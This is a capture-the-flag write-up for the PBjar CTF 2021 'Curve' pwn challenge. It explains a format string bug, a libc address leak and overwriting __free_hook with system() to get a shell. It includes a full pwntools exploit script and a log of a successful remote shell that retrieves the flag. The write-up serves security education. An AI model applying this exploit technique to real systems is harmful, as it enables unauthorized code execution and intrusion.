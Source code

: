 ## Curve

> Points: 398
>
> Solves: 28

### Description:
One of the hardest parts of making a contest is making sure that it has a good curve aka a good problem difficulty distribution. This lazily made problem was made to make the beginning pwn curve a little less steep. 

Connect with "nc 143.198.127.103 42004".

Author: Rythm

### Attachments:
```
curve.zip
```

## Analysis:

This binary can be input 3 times, the first time(`Input 1`) it is output with `puts`, the second time(`Input 2`) there is no output, and the third time(`Input 3`) it is output directly with `printf`. Therefore, there is a vulnerability of `FSB (Format String Bug)` in the third input.
However, since this binary is `Full RELRO`, `GOT` cannot be rewritten with `FSB`. The method of rewriting the return address with `FSB` does not have enough read input size.
Also, since the third input is written to the area allocated by `malloc` in the heap, the address that can be used by `FSB` cannot be specified.

```c
undefined8 main(void)

{
  char *__format;
  long in_FS_OFFSET;
  char local_98 [136];
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  setbuf(stdout,(char *)0x0);
  setbuf(stderr,(char *)0x0);
  __format = (char *)malloc(0x80);
  puts("Oh no! Evil Morty is attempting to open the central finite curve!");
  puts("You get three inputs to try to stop him.\n");
  puts("Input 1:");
  read(0,local_98,0xb0);
  puts(local_98);
  puts("Input 2:");
  read(0,local_98,0x80);
  puts("\nInput 3:");
  read(0,__format,0x80);
  printf(__format);　　　　　　　　　<=========== There is a `FSB` vulnerability here
  free(__format);
  puts("\nLol how could inputting strings stop the central finite curve.");
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return 0;
}
```

The result of checksec. We can see that it is `Full RELRO`.
```bash
$ checksec curve
[*] '/home/mito/CTF/PBjar_CTF_2021/Pwn_Curve/curve/curve'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

Since the character string input in `Input 2` is output as `0x4141414141414141` at the 8th position of `Input 3`, We can see that the value of `index` is `8`.
```bash
Input 2:
AAAAAAAA

Input 3:
BBBBBBBB,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p
BBBBBBBB,0x55555555a2a0,0x80,0x7ffff7ef5e8e,0xa,0x7ffff7fc5be0,(nil),0x55555555a2a0,0x4141414141414141,0xa,(nil),(nil),(nil),(nil),(nil)

```

## Solution:

First, the libc address leak can be done by entering a `0x98` size string in `Input 1` to leak the address `__libc_start_main + 234`. We can calculate the base address of libc.

```bash
gdb-peda$ x/80gx 0x7fffffffdec0
0x7fffffffdec0:	0x0000000000000000	0x000055555555a2a0
0x7fffffffded0:	0x4141414141414141	0x4141414141414141
0x7fffffffdee0:	0x4141414141414141	0x0000000000000a61
0x7fffffffdef0:	0x0000000000000000	0x0000000000000000
0x7fffffffdf00:	0x0000000000000000	0x0000000000000000
0x7fffffffdf10:	0x0000000000f0b5ff	0x00000000000000c2
0x7fffffffdf20:	0x00007fffffffdf47	0x0000555555555325
0x7fffffffdf30:	0x0000000000000000	0x0000000000000000
0x7fffffffdf40:	0x00005555555552e0	0x00005555555550b0
0x7fffffffdf50:	0x00007fffffffe050	0x6b35ac597c192200
0x7fffffffdf60:	0x00005555555552e0	0x00007ffff7e2dd0a  <=== Leak this `0x00007ffff7e2dd0a (__ libc_start_main + 234)`
0x7fffffffdf70:	0x00007fffffffe058	0x0000000100000000
```

Shell startup uses the `free (__ format)` call at the end of the binary. I use FSB to write the address of the `system` function in `__free_hook`.
At this time, first write `/bin/sh` so that it is in the form of `free('/bin/sh; FSB string')`. Then, when we call free (), it will be in the form of `system(`/bin/sh; ...')`, so we can start the shell.

Also, `Input 2` writes the address of `__free_hook`, and `INPUT 3` writes the character string of `FSB`. Since the input size of `Input 2` and` Input 3` is as large as `0x80`, we can write the same character string created by `fmtstr_payload` to `Input 2` and` Input 3` as shown below.

```python
index = 8
writes = {free_hook: system_addr}
buf = b"/bin/sh;" + fmtstr_payload(index+1, writes, numbwritten=8, write_size='short')
```

`fmtstr_payload` creates a string like the one below.
```bash
    00000000  2f 62 69 6e  2f 73 68 3b  25 36 35 30  39 36 63 25  │/bin│/sh;│%650│96c%│
    00000010  31 34 24 6c  6c 6e 25 33  33 31 39 39  63 25 31 35  │14$l│ln%3│3199│c%15│
    00000020  24 68 6e 25  33 30 36 39  33 63 25 31  36 24 68 6e  │$hn%│3069│3c%1│6$hn│
    00000030  70 8e fc f7  ff 7f 00 00  74 8e fc f7  ff 7f 00 00  │p···│····│t···│····│
    00000040  72 8e fc f7  ff 7f 00 00  0a                        │r···│····│·│
```

## Exploit code:
```python
from pwn import *

context(os='linux', arch='amd64')
#context.log_level = 'debug'

BINARY = './curve'
elf  = ELF(BINARY)

if len(sys.argv) > 1 and sys.argv[1] == 'r':
  HOST = "143.198.127.103"
  PORT = 42004
  s = remote(HOST, PORT)
  libc = ELF("./libc-2.31.so")
else:
  s = process(BINARY)
  libc = elf.libc
  #s = process(BINARY, env={'LD_PRELOAD': './libc-2.31.so'})
  #libc = ELF("./libc-2.31.so")

# libc leak
s.sendlineafter("Input 1:\n", "A"*0x98)
s.recvuntil("A"*0x98)
libc_leak = u64(s.recvuntil("\nI")[:-2] + b"\x00\x00")
libc_base = libc_leak - libc.sym.__libc_start_main - 234
free_hook = libc_base + libc.sym.__free_hook
system_addr = libc_base + libc.sym.system
print("libc_leak =", hex(libc_leak))
print("libc_base =", hex(libc_base))

index = 8

# Write system address in __free_hook to call system('/bin/sh')
writes = {free_hook: system_addr}
buf = b"/bin/sh;" + fmtstr_payload(index+1, writes, numbwritten=8, write_size='short')

s.sendlineafter("2:\n", buf)
s.sendlineafter("3:\n", buf)

s.interactive()
```

## Results:
```bash
mito@ubuntu:~/CTF/PBjar_CTF_2021/Pwn_Curve/curve$ python3 solve_fmtstr.py r
[*] '/home/mito/CTF/PBjar_CTF_2021/Pwn_Curve/curve/curve'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to 143.198.127.103 on port 42004: Done
[*] '/home/mito/CTF/PBjar_CTF_2021/Pwn_Curve/curve/libc-2.31.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
libc_leak = 0x7f2d588ced0a
libc_base = 0x7f2d588a8000
[*] Switching to interactive mode
/bin/sh;
...
$ id
uid=1000(user) gid=1000(user) groups=1000(user)
$ ls -l
total 2028
lrwxrwxrwx   1 root root       7 Aug 27 07:16 bin -> usr/bin
drwxr-xr-x   2 root root    4096 Apr 15  2020 boot
drwxr-xr-x   5 root root     340 Sep 17 04:48 dev
drwxr-xr-x   1 root root    4096 Sep 17 04:48 etc
-rwxr-xr-x   1 root root      64 Sep 17 04:28 flag.txt
drwxr-xr-x   1 root root    4096 Sep 17 04:47 home
-rwxr-xr-x   1 root root  177928 Sep 17 04:28 ld-2.31.so
lrwxrwxrwx   1 root root       7 Aug 27 07:16 lib -> usr/lib
lrwxrwxrwx   1 root root       9 Aug 27 07:16 lib32 -> usr/lib32
lrwxrwxrwx   1 root root       9 Aug 27 07:16 lib64 -> usr/lib64
-rwxr-xr-x   1 root root 1839792 Sep 17 04:28 libc-2.31.so
lrwxrwxrwx   1 root root      10 Aug 27 07:16 libx32 -> usr/libx32
drwxr-xr-x   2 root root    4096 Aug 27 07:16 media
drwxr-xr-x   2 root root    4096 Aug 27 07:16 mnt
drwxr-xr-x   2 root root    4096 Aug 27 07:16 opt
dr-xr-xr-x 262 root root       0 Sep 17 04:48 proc
drwx------   2 root root    4096 Aug 27 07:27 root
drwxr-xr-x   5 root root    4096 Aug 27 07:27 run
lrwxrwxrwx   1 root root       8 Aug 27 07:16 sbin -> usr/sbin
drwxr-xr-x   2 root root    4096 Aug 27 07:16 srv
dr-xr-xr-x  13 root root       0 Sep 17 04:48 sys
drwxrwxrwt   1 root root    4096 Sep 17 04:38 tmp
drwxr-xr-x   1 root root    4096 Aug 27 07:16 usr
drwxr-xr-x   1 root root    4096 Aug 27 07:27 var
$ cat flag.txt
flag{n0w_y0ur3_3v1l_m0rty_t00_s00n3r_0r_l4t3r_w3_4ll_4r3_s4dg3}
```

## Reference:

https://inaz2.hatenablog.com/entry/2014/04/20/041453
